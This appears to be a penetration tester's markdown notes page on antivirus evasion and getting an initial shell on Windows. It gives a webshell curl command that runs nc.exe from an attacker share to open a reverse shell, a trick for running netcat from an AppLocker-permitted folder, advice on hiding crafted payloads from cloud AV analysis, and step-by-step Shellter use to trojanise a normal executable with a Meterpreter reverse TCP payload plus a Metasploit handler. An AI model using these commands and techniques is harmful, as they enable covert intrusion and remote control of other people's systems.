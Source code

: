 ## Identify the AV installed

| [https://github.com/PwnDexter/SharpEDRChecker](https://github.com/PwnDexter/SharpEDRChecker) |
| -------------------------------------------------------------------------------------------- |
| [https://github.com/GhostPack/Seatbelt](https://github.com/GhostPack/Seatbelt)               |

Once we know the OS version and AV of the target, we would then attempt to replicate this environment in a virtual machine which we can use to test payloads against. Note that we should always disable any kind of cloud-based protection in the AV settings (potentially by outright disconnecting the VM from the internet) so that the AV doesn't upload our carefully crafted payloads to a server somewhere for analysis, destroying all our hard work. Once we have a working payload, we can then deploy it against the target!

## First steps

\- First of all try sth like this

{% code overflow="wrap" %}
```
curl -s --get 'http://10.10.0.0/webshell.php' --data-urlencode 'cmd=\\$LHOST\myshare\nc.exe $LHOST 443 -e cmd'
or sth like
\\$LHOST\myshare\nc.exe $LHOST 443 -e cmd
```
{% endcode %}

\- To see if the environment is restricted regarding some Powershell commands

```
powershell $ExectuionContext.SessionState.LanguageMode
# If the output is ConstrainedLanguage, it is limited
```

\- run `nc` out of an AppLocker safe directory

```
\windows\system32\spool\drivers\color\nc64.exe
```

## Shellter

```bash
#1 - DOWNLOAD A NORMAL 32-bits .EXE (WinRAR for example or putty/plink)
sudo apt install shellter

sudo shellter
Auto (A)
Absolute path
Stealth mode --> yes # try no if it does not work
List payloads
1 - Meterpreter reverse TCP
# ANOTHER OPTIONS IS TO CREATE OUR PAYLOAD WITH MSFVENOM , SELECT CUSTOM (C) 
# AND INDICATE THE PATH

# When you execute it on Windows --> reverse shell
# To avoid losing the shell when the program ends:
msf > use exploit/multi/handler
msf > set payload windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set AutoRunScript post/windows/manage/migrate
msf6 exploit(multi/handler) > exploit
```
